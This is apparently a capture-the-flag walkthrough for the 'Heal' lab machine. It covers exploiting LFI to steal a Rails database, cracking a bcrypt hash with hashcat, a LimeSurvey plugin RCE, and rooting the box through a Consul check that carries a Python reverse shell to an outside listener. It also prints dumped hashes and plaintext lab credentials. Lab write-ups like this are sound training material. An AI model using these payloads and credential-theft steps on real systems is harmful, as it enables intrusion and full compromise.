




Let's scan the IP address `10.10.11.46`
```bash
sudo nmap -v -sC -sV 10.10.11.46
```


Let's go to the website


Let's try to register and intercept the request in `Burp Suite`


We see that there is a reference to `http://api.heal.htb`. Let's add it to `/etc/hosts` and go to it



Now we can register


If you click `Survey`, a website with a new submenu `http://take-survey.heal.htb` will open. Add it to `/etc/hosts` as well
If you simply go to this address, you will get the following output:


Now the administrator `ralph@heal.htb` is known.
The admin authorization page was found (`/admin --> http://take-survey.heal.htb/index.php/admin/authentication/sa/login`)


Let's try to export a PDF file and intercept the request in `Burp Suite`.
Sending data to `/expected`.



Next, it checks whether access to the `/download` resource is allowed with the `GET` method and the `Authorization` header.


Request to download the file


And then the PDF file is downloaded. 
Since all actions take place on the server, you can try to exploit LFI


LFI works. Now we know that there are users `ralph` and `ron`. Let's try to find the database for `Rails`. The [documentation](https://guides.rubyonrails.org/command_line.html) mentions the existence of the `/config/database.yml` file.


Let's try to download it.


Let's download the file `/storage/development.sqlite3`


Let's open it with `sqlite3`



```hashes
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|ralph|1
test@test.com|$2a$12$ixJT6jUCT8kBXBcHsKw94.pYzoJL4wOuzTs8noUwDVaAS.E50Zmue|test|0
andres@htb.com|$2a$12$iliM9hW1LzsuwabZz4GXFurTfRAtt6txQQJVS10EmTjwWAmAc0oH6|andres|0
0xbandit@gmail.com|$2a$12$7h5X5h8D1k/ilFpMZasrH.RdOI5BpuXMs7pwKu0DSew786hf0qOgG|0xbandit|0
0xbandit2@gmail.com|$2a$12$x6AcggrhJ/7oo7Dvhj/oMeXkACScu6UJFlnbcm3f5ZogbpbVIQAF6|0xbandit2|0
dex1d@gmail.com|$2a$12$xXJDD6NeUZuLhW9Ig5ytD.lgBsjd1ziBiGoU5GUo2mr8G4Vtf81BK|dex1d|0
```
We are interested in `ralph`, as he is the only admin. This is a password hash in `bcryp` format. Let's crack it:
```bash
hashcat -m 3200 ralph /usr/share/wordlists/rockyou.txt
```


```Password
147258369
```

Log in to the admin panel


In this panel, you can upload your plugins. Let's upload our plugin with `reverse shell`. To do this, find a ready-made exploit on GitHub (https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE).
There are two files: `config.xml` and `revshell.php`. They need to be packed into a ZIP archive to be uploaded to the site as a plugin.
```bash
zip -r ReverseShellPlugin.zip config.xml revshell.php
```


Run the script to enter the `reverse shell`
```bash
python exploit.py http://take-survey.heal.htb ralph 147258369 80
```

```bash
python3 -c 'import pty; pty.spawn(“/bin/bash”)'
```
Go to the site directory (it is located at `/var/www/limesurvey` instead of the usual `/var/www/html`) and look for configuration files. We see a line with data for logging into the database



```Password
pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;
```
Log in to it
```bash
PGPASSWORD=‘AdmiDi0_pA$$w0rd’ psql -U db_user -h localhost -d survey
```
Display the list of tables
```psgl
\dt
```


There is a table called `lime_users`. Let's view its contents
```psgl
select * from lime_users;
```


```hash
$2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C
```
Unfortunately, this is the same password that was used to log in to the panel on the website


Let's see if there are any locally running services.
```bash
netstat -lntp
```


<div style="page-break-after: always;"></div>

- **5432** — PostgreSQL.
- **3000, 3001** — Possibly Node.js, Rails, or other web applications.
- **8500, 8503, 8600, 8300-8302** — Consul ports (service and configuration management system)
Let's examine port `8500`:
```bash
curl http://localhost:8500
```
We see the output
```HTML
<a href="/ui/">Moved Permanently</a>
```
This means that the `Consul` server (running on port 8500) redirects requests from the root path `/` to the web interface `/ui/`.
Let's try to exploit RCE on `Consul` via `curl`. Let's send a `reverse shell`
```bash
curl -X PUT -d '{
    “ID”: “rc”,
    “Name”: “Remote code execution”,
    “Shell”: “/bin/bash”,
    “Interval”: “5s”,
    “Args”: [
        “python3”,
        “-c”,
        “import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\”10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\“/bin/sh\”, \“-i\”])"
    ]
}' http://localhost:8500/v1/agent/check/register
```


## What is happening?
1. **Check registration:**
- **ID:** `rc` — check identifier.
- **Name:** `Remote code execution` — check name.
    - **Shell:** `/bin/bash` — shell for executing the command.
- **Interval:** `5s` — the check will run every 5 seconds.
- **Args:** Command to execute.
2. **Reverse Shell command:**
    - Uses `Python3` to create a reverse connection to IP `10.10.14.180` on port `4444`.
- The code opens a socket, redirects standard streams (`stdin`, `stdout`, `stderr`) and launches an interactive shell (`/bin/sh -i`) .

**Consul** is a tool for managing and discovering services that can execute scripts to check the health of services. In our case, the `HTTP API Consul` was available on port 8500, and it appears that the `-enable-script-checks` setting was enabled, allowing arbitrary commands to be executed. This is a known vulnerability that allows attackers to register a check with a malicious script if the API is accessible over the network and there is no proper protection, such as `ACL` (access control lists).
The `curl` command sent a `PUT` request to the endpoint `/v1/agent/check/register` (used to register a new check in `Consul`) with a `JSON` payload that included a `Python` script in the `Args` field. (According to the Consul API documentation (https://developer.hashicorp.com/consul/api-docs/agent/check), the Args field allows you to specify a command to execute if scripted checks are enabled.) This script created a reverse shell by connecting to our listener at `10.10.14.180:4444`. Since `Consul` was configured to execute scripts for checks and was likely running with `root` privileges, executing the script gave access to `root`.
